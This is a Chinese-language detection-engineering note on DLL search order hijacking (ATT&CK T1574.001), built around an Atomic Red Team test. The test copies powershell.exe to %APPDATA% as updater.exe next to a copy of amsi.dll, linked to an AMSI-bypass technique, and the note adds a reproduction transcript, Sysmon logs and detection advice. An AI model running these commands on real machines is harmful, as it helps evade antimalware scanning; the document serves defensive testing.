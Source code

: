 # T1574-001-win-劫持执行流程-DLL搜索顺序劫持
## 来自ATT&CK描述

攻击者可以通过劫持用于加载DLL的搜索顺序来执行自己的恶意负载。Windows系统使用一种常用方法来查找所需的DLL以加载到程序中。劫持DLL加载可能是为了建立持久化或者权限提升以及规避文件执行的限制。

攻击者可以通过多种方式劫持DLL加载。攻击者可能会在一个目录中植入木马动态链接库文件 (DLL)，该目录将在程序请求的合法库的位置之前进行搜索，导致 Windows在受害者程序调用其恶意库时加载其恶意库。攻击者还可以执行DLL预加载，也称为二进制植入攻击是将与模糊指定的DLL同名的恶意DLL放置在Windows在合法DLL之前搜索的位置。这个位置通常是程序的当前工作目录。当程序在加载DLL之前将其当前目录设置为远程位置（例如 Web 共享）时，就会发生远程DLL预加载攻击。

攻击者也可能通过DLL重定向直接修改搜索顺序，在启用后（在注册表中并创建重定向文件）可能会导致程序加载不同的DLL。

如果搜索顺序易受攻击的程序配置为在更高权限级别运行，则加载的攻击者控制的 DLL也将在更高级别执行。在这种情况下，该技术可用于从用户到管理员或SYSTEM或从管理员到SYSTEM的权限升级，具体取决于程序。成为路径劫持受害者的程序可能表现正常，因为恶意DLL可能被配置为也加载它们打算替换的合法DLL。

## 测试案例

### 测试1 DLL Search Order Hijacking - amsi.dll

攻击者可以利用PowerShell不安全的库加载，加载amsi.dll的脆弱版本，以绕过AMSI（反恶意软件扫描接口）https://enigma0x3.net/2017/07/19/bypassing-amsi-via-com-server-hijacking/

成功执行后，powershell.exe将被复制并重命名为updater.exe，并从一个非标准路径加载amsi.dll。

攻击命令，用命令提示符运行，需要权限提升，admin/root权限：
```
copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
%APPDATA%\updater.exe -Command exit
```

清除命令：
```
del %APPDATA%\updater.exe >nul 2>&1
del %APPDATA%\amsi.dll >nul 2>&1
```

## 检测日志

Windows Sysmon日志

## 测试复现
### 测试1 DLL Search Order Hijacking - amsi.dll
```
Microsoft Windows [版本 10.0.17763.973]
(c) 2018 Microsoft Corporation。保留所有权利。

C:\Users\Administrator.ZHULI>copy %windir%\System32\windowspowershell\v1.0\powershell.exe %APPDATA%\updater.exe
已复制         1 个文件。

C:\Users\Administrator.ZHULI>copy %windir%\System32\amsi.dll %APPDATA%\amsi.dll
已复制         1 个文件。

C:\Users\Administrator.ZHULI>%APPDATA%\updater.exe -Command exit

C:\Users\Administrator.ZHULI>del %APPDATA%\updater.exe >nul 2>&1

C:\Users\Administrator.ZHULI>del %APPDATA%\amsi.dll >nul 2>&1

C:\Users\Administrator.ZHULI>
```


## 测试留痕
### 测试1 DLL Search Order Hijacking - amsi.dll
Windows sysmon日志
```事件ID:7
      

Image loaded:

RuleName: technique_id=T1059.001,technique_name=PowerShell

UtcTime: 2022-01-13 08:49:39.694

ProcessGuid: {78c84c47-e7a3-61df-9a02-000000000900}

ProcessId: 1044

Image: C:\Users\Administrator.ZHULI\AppData\Roaming\updater.exe

ImageLoaded: C:\Users\Administrator.ZHULI\AppData\Roaming\amsi.dll

FileVersion: 10.0.17763.1 (WinBuild.160101.0800)

Description: Anti-Malware Scan Interface

Product: Microsoft® Operating System

Company: Microsoft Corporation

OriginalFileName: amsi.dll

Hashes: SHA1=B7B7398DB0EDCE2C39A964096B009F60C544DC29,MD5=21EAA9941DB9CA4B41A5FFCBFE4CA9A5,SHA256=F675D2A8686A7CFD7A7056AC490E159A17D6B728420CF15C4EE26C670437370A,IMPHASH=11E9179F7B8A676A1110DA8E334D75BE

Signed: true

Signature: Microsoft Windows

SignatureStatus: Valid

User: ZHULI\Administrator
```

## 检测规则/思路
### 建议

监视文件系统，移动、重命名、替换或修改DLL行为。与已知软件、补丁等不相关的进程加载的DLL集的更改（与过去的行为相比）是可疑的。监控加载到进程中DLL，检测文件名相同但路径异常的DLL。对与软件更新无关的文件的修改、创建`.manifest`和`.local`重定向是可疑的。

## 参考推荐

MITRE-ATT&CK-T1574-001

<https://attack.mitre.org/techniques/T1574/001>

Atomic-red-team-T1574-001

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1574.001/T1574.001.md>
